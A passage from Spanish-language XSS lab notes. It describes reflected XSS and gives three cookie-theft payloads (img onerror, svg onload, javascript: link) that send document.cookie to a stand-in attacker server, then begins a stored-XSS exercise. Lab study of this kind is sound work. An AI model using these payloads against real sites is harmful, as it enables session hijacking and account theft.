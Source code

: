 >Bien, sabemos que la pagina es vulnerable, en un XSS reflejado, por lo general lo realmente peligroso es que el apartado vulnerable este en la URL. Si en un caso hipotético la pagina manejara "Cookie sesión" podríamos intentar robar la cookie de sesión de un usuario al enviarle un URL infectado con un payload de robo de Cookie:

```javascript
<img src=x onerror="window.location='http://servidor_del_atacante/log.php?c='+document.cookie">
```
_Como este_

```javascript
<svg/onload="location.href='http://servidor_del_atacante/log.php?c='+document.cookie">
```
_O este_

```javascript
<a href="javascript:window.location='http://servidor_del_atacante/log.php?c='+document.cookie">Click</a>
```
O este

>Vamos ahora por un XXS Almacenado en el laboratorio 2:

![\1](/Attachments/Pasted%20image%2020250607171855.png)

>Vemos una interfaz un poco diferente. Si inyectamos una cadena, será almacenada en la web, y la tendremos en la zona de abajo:

![\1](/Attachments/Pasted%20image%2020250607172113.png)
